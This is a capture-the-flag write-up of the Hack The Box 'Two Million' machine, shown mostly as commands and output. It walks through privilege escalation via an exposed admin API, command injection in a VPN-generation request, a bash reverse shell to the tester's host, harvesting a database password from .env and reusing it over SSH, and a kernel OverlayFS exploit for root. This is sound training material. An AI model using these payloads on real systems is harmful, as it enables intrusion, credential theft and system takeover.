

# Two Million

This is the write-up for Two Million box from Hack The Box.

# Reconnaissance

First, we start executing a full port scan on the host.

```bash
─[us-free-3]─[10.10.14.123]─[th3g3ntl3m4n@parrot]─[~/htb/machines/two-million]
└──╼ [★]$ sudo nmap -v -sS -Pn -p- --min-rate=300 --max-rate=500 10.10.11.221

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Now, we execute a port scan only on the open ports that we found.

```bash
─[us-free-3]─[10.10.14.123]─[th3g3ntl3m4n@parrot]─[~/htb/machines/two-million]
└──╼ [★]$ sudo nmap -vv -sC -sV -Pn -p 22,80 -oA nmap/2million 10.10.11.221

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3eea454bc5d16d6fe2d4d13b0a3da94f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJ+m7rYl1vRtnm789pH3IRhxI4CNCANVj+N5kovboNzcw9vHsBwvPX3KYA3cxGbKiA0VqbKRpOHnpsMuHEXEVJc=
|   256 64cc75de4ae6a5b473eb3f1bcfb4e394 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOtuEdoYxTohG80Bo6YCqSzUY9+qbnAFnhsk4yAZNqhM
80/tcp open  http    syn-ack ttl 63 nginx
|_http-title: Did not follow redirect to http://2million.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We found a domain, so we write it down in our local hosts file.



Accessing the domain on our browser, we got.


# Enumeration

We navigate around the web page and, on link invite, we check the source code and get some JS interesting files.


Checking the JS file on the following URL , we got the following formatted code.

[Online JavaScript beautifier](https://beautifier.io/)

```jsx
function verifyInviteCode(code) {
    var formData = {
        "code": code
    };
    $.ajax({
        type: "POST",
        dataType: "json",
        data: formData,
        url: '/api/v1/invite/verify',
        success: function(response) {
            console.log(response)
        },
        error: function(response) {
            console.log(response)
        }
    })
}

function makeInviteCode() {
    $.ajax({
        type: "POST",
        dataType: "json",
        url: '/api/v1/invite/how/to/generate',
        success: function(response) {
            console.log(response)
        },
        error: function(response) {
            console.log(response)
        }
    })
}
```

Accessing the endpoint marked in red above, we got.

```bash
╭─[us-free-3]-[10.10.14.123]-[th3g3ntl3m4n@kali]-[~/htb/machines/two-millions]
╰─ $ curl -s -X POST http://2million.htb/api/v1/invite/how/to/generate | jq
{
  "0": 200,
  "success": 1,
  "data": {
    "data": "Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr",
    "enctype": "ROT13"
  },
  "hint": "Data is encrypted ... We should probbably check the encryption type in order to decrypt it..."
}
```

We decrypted the message above on the MasterChef site.

[CyberChef](https://gchq.github.io/CyberChef/)


Accessing the endpoint shown in the message above, we got.

```bash
╭─[us-free-3]-[10.10.14.123]-[th3g3ntl3m4n@kali]-[~/htb/machines/two-millions]
╰─ $ curl -s -X POST http://2million.htb/api/v1/invite/generate | jq       
{
  "0": 200,
  "success": 1,
  "data": {
    "code": "UzlGT1otVkU3U0ctTUZaQUktNTkxNDM=",
    "format": "encoded"
  }
}
```

Decoding the message, we got.


We now are able to register an account on the site.


We created an account and log into the application.


We got the following home page.


On BurpSuite we mapped what we possible from the application and we verify that there is a functionality that generates a VPN package for an account.


Here in Burp, we identified the api endpoint.


We tried to curl the /`api/v1` endpoint. We got the whole API functionality of the application.

```jsx
╭─[us-free-3]-[10.10.14.123]-[th3g3ntl3m4n@kali]-[~/htb/machines/two-millions]
╰─ $ curl -s --cookie "PHPSESSID=pm2n5m5pft5om75oh98r9a7ulu" http://2million.htb/api/v1 | jq 
{
  "v1": {
    "user": {
      "GET": {
        "/api/v1": "Route List",
        "/api/v1/invite/how/to/generate": "Instructions on invite code generation",
        "/api/v1/invite/generate": "Generate invite code",
        "/api/v1/invite/verify": "Verify invite code",
        "/api/v1/user/auth": "Check if user is authenticated",
        "/api/v1/user/vpn/generate": "Generate a new VPN configuration",
        "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
        "/api/v1/user/vpn/download": "Download OVPN file"
      },
      "POST": {
        "/api/v1/user/register": "Register a new user",
        "/api/v1/user/login": "Login with existing user"
      }
    },
    "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
      "PUT": {
        "/api/v1/admin/settings/update": "Update user settings"
      }
    }
  }
}
```

We execute the following request.

```bash
╭─[us-free-3]-[10.10.14.123]-[th3g3ntl3m4n@kali]-[~/htb/machines/two-millions]
╰─ $ curl -s -X PUT --cookie "PHPSESSID=pm2n5m5pft5om75oh98r9a7ulu" http://2million.htb/api/v1/admin/settings/update --header "Content-Type: application/json" | jq
{
  "status": "danger",
  "message": "Missing parameter: email"
}
```

Now we insert our email and the parameter “is_admin” setting it to value 1.

```bash
╭─[us-free-3]-[10.10.14.123]-[th3g3ntl3m4n@kali]-[~/htb/machines/two-millions]
╰─ $ curl -s -X PUT --cookie "PHPSESSID=pm2n5m5pft5om75oh98r9a7ulu" http://2million.htb/api/v1/admin/settings/update --header "Content-Type: application/json" --data '{"email":"th3g3ntl3m4n@2million.htb"}' | jq
{
  "status": "danger",
  "message": "Missing parameter: is_admin"
}
╭─[us-free-3]-[10.10.14.123]-[th3g3ntl3m4n@kali]-[~/htb/machines/two-millions]
╰─ $ curl -s -X PUT --cookie "PHPSESSID=pm2n5m5pft5om75oh98r9a7ulu" http://2million.htb/api/v1/admin/settings/update --header "Content-Type: application/json" --data '{"email":"th3g3ntl3m4n@2million.htb","is_admin":1}' | jq 
{
  "id": 18,
  "username": "th3g3ntl3m4n",
  "is_admin": 1
}
```

Checking if our user is now admin.

```bash
╭─[us-free-3]-[10.10.14.123]-[th3g3ntl3m4n@kali]-[~/htb/machines/two-millions]
╰─ $ curl -s --cookie "PHPSESSID=pm2n5m5pft5om75oh98r9a7ulu" http://2million.htb/api/v1/admin/auth --header "Content-Type: application/json" | jq
{
  "message": true
}
```

Now, when we generate the VPN package for our user as admin role, we could got a command injection on username parameter.

```bash
╭─[us-free-3]-[10.10.14.123]-[th3g3ntl3m4n@kali]-[~/htb/machines/two-millions]
╰─ $ curl -s -X POST --cookie "PHPSESSID=pm2n5m5pft5om75oh98r9a7ulu" http://2million.htb/api/v1/admin/vpn/generate --header "Content-Type: application/json"
{"status":"danger","message":"Missing parameter: username"}%                                                                                                                                         
╭─[us-free-3]-[10.10.14.123]-[th3g3ntl3m4n@kali]-[~/htb/machines/two-millions]
╰─ $ curl -s -X POST --cookie "PHPSESSID=pm2n5m5pft5om75oh98r9a7ulu" http://2million.htb/api/v1/admin/vpn/generate --header "Content-Type: application/json" --data '{"username":"th3g3ntl3m4n;id;"}'

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Now we got a reverse shell on the victim target.

```bash
╭─[us-free-3]-[10.10.14.123]-[th3g3ntl3m4n@kali]-[~/htb/machines/two-millions]
╰─ $ curl -s -X POST --cookie "PHPSESSID=pm2n5m5pft5om75oh98r9a7ulu" http://2million.htb/api/v1/admin/vpn/generate --header "Content-Type: application/json" --data '{"username":"th3g3ntl3m4n;bash -c \"bash -i >& /dev/tcp/10.10.14.123/443 0>&1\";"}'
```

On our listener, we got.

```bash
╭─[us-free-3]-[10.10.14.123]-[th3g3ntl3m4n@kali]-[~/htb/machines/two-millions]
╰─ $ python3 -m pwncat -lp 443
/home/th3g3ntl3m4n/.local/lib/python3.11/site-packages/paramiko/transport.py:178: CryptographyDeprecationWarning: Blowfish has been deprecated
  'class': algorithms.Blowfish,
[11:03:48] Welcome to pwncat 🐈!                                                                                                                                                      __main__.py:164
[11:04:26] received connection from 10.10.11.221:39456                                                                                                                                     bind.py:84
[11:04:32] 10.10.11.221:39456: registered new host w/ db                                                                                                                               manager.py:957
(local) pwncat$                                                                                                                                                                                      
(remote) www-data@2million:/var/www/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# Lateral Movement

Checking the web root directory, we noticed that there is a `.env` interesting file. Checking this file, we got a credential.

```bash
(remote) www-data@2million:/var/www/html$ ls -la
total 56
drwxr-xr-x 10 root root 4096 Jun  8 15:00 .
drwxr-xr-x  3 root root 4096 Jun  6 10:22 ..
-rw-r--r--  1 root root   87 Jun  2 18:56 .env
-rw-r--r--  1 root root 1237 Jun  2 16:15 Database.php
-rw-r--r--  1 root root 2787 Jun  2 16:15 Router.php
drwxr-xr-x  5 root root 4096 Jun  8 15:00 VPN
drwxr-xr-x  2 root root 4096 Jun  6 10:22 assets
drwxr-xr-x  2 root root 4096 Jun  6 10:22 controllers
drwxr-xr-x  5 root root 4096 Jun  6 10:22 css
drwxr-xr-x  2 root root 4096 Jun  6 10:22 fonts
drwxr-xr-x  2 root root 4096 Jun  6 10:22 images
-rw-r--r--  1 root root 2692 Jun  2 18:57 index.php
drwxr-xr-x  3 root root 4096 Jun  6 10:22 js
drwxr-xr-x  2 root root 4096 Jun  6 10:22 views
(remote) www-data@2million:/var/www/html$ cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

| **USERNAME** | **PASSWORD** |
| --- | --- |
| admin | SuperDuperPass123 |

We checked which users there are in the host.

```bash
(remote) www-data@2million:/var/www/html$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/bin/bash
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:114:120:MySQL Server,,,:/nonexistent:/bin/false
admin:x:1000:1000::/home/admin:/bin/bash
memcache:x:115:121:Memcached,,,:/nonexistent:/bin/false
_laurel:x:998:998::/var/log/laurel:/bin/false
```

We were able to log into SSH service using this credential for user admin.

```bash
╭─[us-free-3]-[10.10.14.123]-[th3g3ntl3m4n@kali]-[~/htb/machines/two-millions]                                                                                                                  [1/2]
╰─ $ ssh admin@2million.htb                                                                                                                                                                          
The authenticity of host '2million.htb (10.10.11.221)' can't be established.
ED25519 key fingerprint is SHA256:TgNhCKF6jUX7MG8TC01/MUj/+u0EBasUVsdSQMHdyfY.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '2million.htb' (ED25519) to the list of known hosts.
admin@2million.htb's password: 
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.70-051570-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Jun  8 03:14:32 PM UTC 2023

  System load:           0.0
  Usage of /:            87.8% of 4.82GB
  Memory usage:          16%
  Swap usage:            0%
  Processes:             239
  Users logged in:       1
  IPv4 address for eth0: 10.10.11.221
  IPv6 address for eth0: dead:beef::250:56ff:feb9:46a2

  => / is using 87.8% of 4.82GB

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have mail.
Last login: Thu Jun  8 13:47:08 2023 from 10.10.14.27
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

admin@2million:~$ id
uid=1000(admin) gid=1000(admin) groups=1000(admin)
```

# Privilege Escalation

Running the linpeas tool, we got the interesting file on mail inbox into user admin.


Checking the file, we got.

```bash
admin@2million:~$ cat /var/mail/admin 
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather
```

Checking the CVE vulnerability described on the email user, we got.

[https://github.com/xkaneiki/CVE-2023-0386](https://github.com/xkaneiki/CVE-2023-0386)

We download it to our machine and zip the directory in order to upload it to the host.

```bash
╭─[us-free-3]-[10.10.14.123]-[th3g3ntl3m4n@kali]-[~/htb/machines/two-millions/www/CVE-2023-0386]
╰─ $ zip -r exploit.zip *
  adding: exp.c (deflated 64%)
  adding: fuse.c (deflated 68%)
  adding: getshell.c (deflated 58%)
  adding: Makefile (deflated 20%)
  adding: ovlcap/ (stored 0%)
  adding: ovlcap/.gitkeep (stored 0%)
  adding: README.md (deflated 23%)
  adding: test/ (stored 0%)
  adding: test/fuse_test.c (deflated 74%)
  adding: test/mnt (deflated 82%)
  adding: test/mnt.c (deflated 62%)
```

Now we upload the zip file to the host.


Compiling and executing the exploit.

```bash
admin@2million:/dev/shm/exploit$ ls -la
total 24
drwxrwxr-x 4 admin admin  180 Jun  8 16:04 .
drwxrwxrwt 3 root  root    80 Jun  8 16:04 ..
-rw-r--r-- 1 admin admin 3093 Jun  8 15:57 exp.c
-rw-r--r-- 1 admin admin 5616 Jun  8 15:57 fuse.c
-rw-r--r-- 1 admin admin  549 Jun  8 15:57 getshell.c
-rw-r--r-- 1 admin admin  150 Jun  8 15:57 Makefile
drwxr-xr-x 2 admin admin   60 Jun  8 15:57 ovlcap
-rw-r--r-- 1 admin admin  222 Jun  8 15:57 README.md
drwxr-xr-x 2 admin admin  100 Jun  8 15:57 test
admin@2million:/dev/shm/exploit$ make all
gcc fuse.c -o fuse -D_FILE_OFFSET_BITS=64 -static -pthread -lfuse -ldl
fuse.c: In function ‘read_buf_callback’:
fuse.c:106:21: warning: format ‘%d’ expects argument of type ‘int’, but argument 2 has type ‘off_t’ {aka ‘long int’} [-Wformat=]
  106 |     printf("offset %d\n", off);
      |                    ~^     ~~~
      |                     |     |
      |                     int   off_t {aka long int}
      |                    %ld
fuse.c:107:19: warning: format ‘%d’ expects argument of type ‘int’, but argument 2 has type ‘size_t’ {aka ‘long unsigned int’} [-Wformat=]
  107 |     printf("size %d\n", size);
      |                  ~^     ~~~~
      |                   |     |
      |                   int   size_t {aka long unsigned int}
      |                  %ld
fuse.c: In function ‘main’:
fuse.c:214:12: warning: implicit declaration of function ‘read’; did you mean ‘fread’? [-Wimplicit-function-declaration]
  214 |     while (read(fd, content + clen, 1) > 0)
      |            ^~~~
      |            fread
fuse.c:216:5: warning: implicit declaration of function ‘close’; did you mean ‘pclose’? [-Wimplicit-function-declaration]
  216 |     close(fd);
      |     ^~~~~
      |     pclose
fuse.c:221:5: warning: implicit declaration of function ‘rmdir’ [-Wimplicit-function-declaration]
  221 |     rmdir(mount_path);
      |     ^~~~~
/usr/bin/ld: /usr/lib/gcc/x86_64-linux-gnu/11/../../../x86_64-linux-gnu/libfuse.a(fuse.o): in function `fuse_new_common':
(.text+0xaf4e): warning: Using 'dlopen' in statically linked applications requires at runtime the shared libraries from the glibc version used for linking
gcc -o exp exp.c -lcap
gcc -o gc getshell.
```

Checking the files, we now have the `exp` binary, we execute it and got root.

```bash
admin@2million:/dev/shm/exploit$ ./fuse ./ovlcap/lower ./gc &
[1] 51756
admin@2million:/dev/shm/exploit$ [+] len of gc: 0x3ee0

admin@2million:/dev/shm/exploit$ ls -la
total 1436
drwxrwxr-x 4 admin admin     240 Jun  8 16:07 .
drwxrwxrwt 3 root  root       80 Jun  8 16:07 ..
-rwxrwxr-x 1 admin admin   17160 Jun  8 16:07 exp
-rw-r--r-- 1 admin admin    3093 Jun  8 15:57 exp.c
-rwxrwxr-x 1 admin admin 1407736 Jun  8 16:07 fuse
-rw-r--r-- 1 admin admin    5616 Jun  8 15:57 fuse.c
-rwxrwxr-x 1 admin admin   16096 Jun  8 16:07 gc
-rw-r--r-- 1 admin admin     549 Jun  8 15:57 getshell.c
-rw-r--r-- 1 admin admin     150 Jun  8 15:57 Makefile
drwxr-xr-x 6 admin admin     140 Jun  8 16:15 ovlcap
-rw-r--r-- 1 admin admin     222 Jun  8 15:57 README.md
drwxr-xr-x 2 admin admin     100 Jun  8 15:57 test
```

Executing the `exp` binary.

```bash
admin@2million:/tmp/exploit$ ./exp 
uid:1000 gid:1000
[+] mount success
[+] readdir
[+] getattr_callback
/file
total 8
drwxrwxr-x 1 root   root     4096 Jun  8 18:44 .
drwxr-xr-x 6 root   root     4096 Jun  8 18:44 ..
-rwsrwxrwx 1 nobody nogroup 16096 Jan  1  1970 file
[+] open_callback
/file
[+] read buf callback
offset 0
size 16384
path /file
[+] open_callback
/file
[+] open_callback
/file
[+] ioctl callback
path /file
cmd 0x80086601
[+] exploit success!
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@2million:/tmp/exploit# id
uid=0(root) gid=0(root) groups=0(root),1000(admin)
```

